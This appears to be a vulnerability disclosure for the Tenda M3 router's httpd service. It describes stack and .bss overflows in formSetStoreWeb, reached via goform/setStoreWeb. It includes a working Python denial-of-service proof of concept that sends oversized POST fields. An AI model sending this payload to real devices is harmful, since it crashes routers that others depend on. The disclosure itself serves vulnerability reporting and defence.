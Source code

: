 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability and a data segment overflow vulnerability. The vulnerability occurrs in the `formSetStoreWeb` function, which can be accessed via the URL `goform/setStoreWeb`

<img src="img/image-20220527173043527.png" alt="image-20220527173043527" style="zoom:67%;" />

<img src="img/image-20220527173122862.png" alt="image-20220527173122862" style="zoom:67%;" />

When the POST parameter `action` equals to "save", the program will enter if branch at line 103. In the if body, program copy POST parameter `ssidList` and `storeName` to global variable `g_weixin_config` without chekcing its length. It also copy POST parameter `trademark` to stack buffer `v4` without chekcing its length.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"action": b"save",
    b"ssidList": b'A'*0x600,  # .bss segment overflow
    b"storeName": b'A'*0x600, # .bss segment overflow
    b"trademark": b'A'*0x1000, # stack overflow
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setStoreWeb", data=data, cookies=cookies)
print(res.content)
```

